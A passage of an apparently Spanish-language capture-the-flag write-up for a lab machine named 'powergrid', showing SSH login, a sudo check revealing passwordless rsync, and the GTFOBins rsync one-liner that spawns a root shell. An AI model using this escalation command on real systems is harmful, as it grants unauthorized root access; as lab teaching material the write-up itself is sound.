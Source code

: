 ```bash
p48@powergrid:~$ ssh -i id_rsa p48@172.17.0.2
p48@powergrid:~$ sudo -l
    (root) NOPASSWD: /usr/bin/rsync
```
Podemos ejecutar como el usuario root de manera temporal el binario **rsync** nos vamos de cabeza a [gtfobins](https://gtfobins.github.io/gtfobins/rsync/) 

```bash
sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
> whoami 
root
```
Ya somos root, podéis ir buscando los flags que en esta máquina tienen "lore", la máquina está guay, es entretenida y toca cosas que vienen bien.
